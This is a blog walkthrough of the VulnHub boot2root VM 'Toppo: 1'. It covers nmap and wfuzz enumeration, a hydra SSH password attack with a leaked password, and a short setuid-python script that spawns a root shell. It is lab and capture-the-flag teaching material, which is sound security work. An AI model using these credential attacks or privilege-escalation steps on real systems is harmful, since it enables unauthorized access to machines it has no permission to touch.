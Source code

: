 ```yaml
---
layout: post
date: 2018-08-17 19:04:17 +0000
title: "Toppo: 1 Walkthrough"
subtitle: "Hakaishin Toppo?"
category: Walkthrough
tags: [VulnHub, Toppo]
comments: true
image:
  feature: toppo-1-walkthrough.jpg
  credit: Thomas-Suisse / Pixabay
  creditlink: https://pixabay.com/en/bomb-background-pattern-explode-1185726/
---
```


This post documents the complete walkthrough of Toppo: 1, a boot2root [VM][1] created by [Hadi Mene][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## Background

There's no backstory for this VM. All we know is that it isn't hard to pwn and doesn't require advanced exploitation. The one "Toppo" I know is a character from Dragon Ball Super–God of Destruction candidate from Universe 11 :laughing:

## Information Gathering

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.30.130
...
PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 64 OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey:
|   1024 ec:61:97:9f:4d:cb:75:99:59:d4:c1:c4:d4:3e:d9:dc (DSA)
|   2048 89:99:c4:54:9a:18:66:f7:cd:8e:ab:b6:aa:31:2e:c6 (RSA)
|   256 60:be:dd:8f:1a:d7:a3:f3:fe:21:cc:2f:11:30:7b:0d (ECDSA)
|_  256 39:d9:79:26:60:3d:6c:a2:1e:8b:19:71:c0:e2:5e:5f (ED25519)
80/tcp    open  http    syn-ack ttl 64 Apache httpd 2.4.10 ((Debian))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Clean Blog - Start Bootstrap Theme
111/tcp   open  rpcbind syn-ack ttl 64 2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          33198/udp  status
|_  100024  1          58751/tcp  status
58751/tcp open  status  syn-ack ttl 64 1 (RPC #100024)
```

`nmap` finds `22/tcp`, `80/tcp`, `111/tcp`, and `58751/tcp` open. As usual, I'll go for the web one first. Here's how it looks like.

![Clean Blog](/assets/images/posts/toppo-1-walkthrough/460c48a6.png)

## Directory/File Enumeration

I like `wfuzz` a lot. When it's combined with a quality wordlist like the ones in SecLists, you can uncover directories and files that will point you in the next direction.

```
# wfuzz -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 20 --hc 404 http://192.168.30.130/FUZZ
********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://192.168.30.130/FUZZ
Total requests: 4593

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================

000011:  C=403     11 L	      32 W	    298 Ch	  ".htaccess"
000010:  C=403     11 L	      32 W	    293 Ch	  ".hta"
000012:  C=403     11 L	      32 W	    298 Ch	  ".htpasswd"
000190:  C=200     21 L	     172 W	   1093 Ch	  "LICENSE"
000437:  C=301      9 L	      28 W	    316 Ch	  "admin"
001232:  C=301      9 L	      28 W	    314 Ch	  "css"
002073:  C=301      9 L	      28 W	    314 Ch	  "img"
002094:  C=200    183 L	     465 W	   6437 Ch	  "index.html"
002250:  C=301      9 L	      28 W	    313 Ch	  "js"
002463:  C=301      9 L	      28 W	    315 Ch	  "mail"
002497:  C=301      9 L	      28 W	    317 Ch	  "manual"
003597:  C=403     11 L	      32 W	    302 Ch	  "server-status"
004261:  C=301      9 L	      28 W	    317 Ch	  "vendor"
```

Following the hint in `LICENSE`, it's not long before I found Blackrock Digital's GitHub [repository](https://github.com/BlackrockDigital/startbootstrap-clean-blog) for this BootStrap theme in Google.

![LICENSE](/assets/images/posts/toppo-1-walkthrough/727f2d5a.png)

Everything was identical to those listed in the repository except for `/admin`.

![/admin](/assets/images/posts/toppo-1-walkthrough/4bc414d0.png)

![/admin/notes.txt](/assets/images/posts/toppo-1-walkthrough/532aac6c.png)

## Hail Hydra

I also like `hydra` a lot. It's always my go-to weapon of choice for online password cracking and user validation. Let's give it a shot.

```
# hydra -L usernames.txt -p 12345ted123 -f -e nsr -o hydra.txt -t 4 ssh://192.168.30.130)
[22][ssh] host: 192.168.30.130   login: ted   password: 12345ted123
```

What's in `usernames.txt`, you ask?

```
# cat usernames.txt
root
admin
test
guest
info
adm
mysql
user
administrator
oracle
ftp
toppo
ted
```

I added `toppo` and `ted` for obvious reasons—`toppo` is the name of the VM while `ted` appears in `/admin/notes.txt`.

## Low-Privilege Shell

Now that I have the password of `ted`, let's log in to his SSH account.

![ted](/assets/images/posts/toppo-1-walkthrough/5603610a.png)

## Privilege Escalation

Again, using basic enumeration, I soon found the ticket to privilege escalation.

![python2.7](/assets/images/posts/toppo-1-walkthrough/7558c05c.png)

Since I have a `python` that's `setuid` to `root`, I can write a Python script like this.

<div class="filename"><span>makemeroot.py</span></div>

```python
import os

os.setuid(0)
os.setgid(0)
os.system("/bin/bash")
```

![root](/assets/images/posts/toppo-1-walkthrough/b08a64c9.png)

## Where's the Flag (WTF)

With `root`, getting the flag is trivial.

![Flag](/assets/images/posts/toppo-1-walkthrough/af5a0e51.png)

:dancer:

[1]: https://www.vulnhub.com/entry/toppo-1,245/
[2]: https://twitter.com/@h4d3sw0rm
[3]: https://www.vulnhub.com/
